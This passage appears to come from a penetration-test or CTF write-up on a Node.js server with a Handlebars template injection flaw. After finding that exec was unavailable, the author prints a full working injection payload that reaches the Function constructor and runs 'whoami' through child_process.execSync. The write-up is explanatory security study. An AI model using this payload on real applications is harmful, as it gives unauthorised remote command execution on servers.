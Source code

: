<figure><img src="../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

***

* I noticed the server processed it without errors, but instead of executing the command was returning what seemed to be _JavaScript_ objects. This could be because the _exec_ function was not available within the environment context. After a lot of [research](https://nodejs.org/api/child_process.html), I found other possible functions from the _child\_process_ module that could let us execute commands. Trying all possible options we found that by using the _execSync_ function and resending the petition, I finally did it work

{% code title="SSLI_Final_Payload" overflow="wrap" lineNumbers="true" %}
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}} 
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
{% endcode %}
